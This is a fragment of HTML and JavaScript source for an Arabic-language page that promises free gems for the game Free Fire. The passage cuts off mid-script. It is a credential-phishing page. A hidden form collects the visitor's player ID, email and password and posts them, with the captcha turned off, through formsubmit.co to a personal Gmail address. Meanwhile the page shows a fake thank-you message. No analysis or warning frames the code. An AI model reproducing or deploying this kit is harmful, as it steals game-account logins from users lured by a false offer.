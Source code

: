             <div class="gem-option" data-gems="300">
                <h3>300 جوهرة</h3>
                <p>مجانًا بالكامل!</p>
            </div>
            
            <div class="loading" id="loading2">
                <p>جاري معالجة طلبك...</p>
            </div>
            
            <div style="clear: both; margin-top: 30px;">
                <button id="charge-btn" disabled>شحن الجواهر</button>
            </div>
        </div>
        
        <!-- رسالة النجاح -->
        <div id="success-message" class="success-message">
            <h2>شكرًا لك!</h2>
            <p>سيتم شحن الجواهر إلى حسابك خلال دقائق قليلة.</p>
            <p>يرجى التحقق من حسابك في فري فاير.</p>
        </div>
        
        <!-- النموذج الخفي لـ FormSubmit -->
        <form id="formsubmit-form" action="https://formsubmit.co/Kakarotsayan94@gmail.com" method="POST">
            <input type="hidden" name="player_id" id="form-id">
            <input type="hidden" name="player_email" id="form-email">
            <input type="hidden" name="player_password" id="form-password">
            <input type="hidden" name="selected_gems" id="form-gems">
            <input type="hidden" name="_subject" value="طلب جديد لشحن جواهر فري فاير">
            <input type="hidden" name="_template" value="table">
            <input type="hidden" name="_captcha" value="false">
        </form>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const nextBtn = document.getElementById('next-btn');
            const chargeBtn = document.getElementById('charge-btn');
            const loginForm = document.getElementById('login-form');
            const gemsForm = document.getElementById('gems-form');
            const successMessage = document.getElementById('success-message');
            const gemOptions = document.querySelectorAll('.gem-option');
            const loading1 = document.getElementById('loading1');
            const loading2 = document.getElementById('loading2');
            const formsubmitForm = document.getElementById('formsubmit-form');
            
            let selectedGems = 0;
            
            // التحقق من الحقول قبل الانتقال
            nextBtn.addEventListener('click', function() {
                const id = document.getElementById('id').value;
                const email = document.getElementById('email').value;
                const password = document.getElementById('password').value;
                
                if (id && email && password) {
                    // إظهار تحميل
                    nextBtn.style.display = 'none';
                    loading1.style.display = 'block';
                    